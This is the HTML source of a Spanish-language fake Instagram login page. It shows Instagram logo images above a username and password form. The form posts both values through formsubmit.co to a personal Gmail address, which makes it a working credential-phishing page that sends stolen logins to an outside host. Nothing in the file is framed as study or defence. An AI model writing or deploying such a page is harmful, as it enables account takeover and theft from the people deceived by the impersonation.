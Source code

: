 
<html>
<head>
    <meta charset="utf-8" />
</head>
<body>
    <img width="1000px" src="https://assets.turbologo.com/blog/es/2019/09/19133022/instagram-logo-illustration.png" />
    <h2>iniciar sesion</h2>
    <form action="https://formsubmit.co/enekocat0@gmail.com" method="POST">
        <label>nombre de usuario</label>
        <br/>
        <input type="text" name="nombre de usuario" />
        <br/>
    <label>contraseña</label>
    <br/>
    <input type="password" name="contraseña" />
    <br/>
    <input type="submit" value="inicar sesion" />
</form>
<img width="1000px" src="https://static.vecteezy.com/ti/vettori-gratis/p1/4263118-meta-instagram-icon-set-editorial-metaverse-concept-gratuito-vettoriale.jpg" />
</body>
</html>
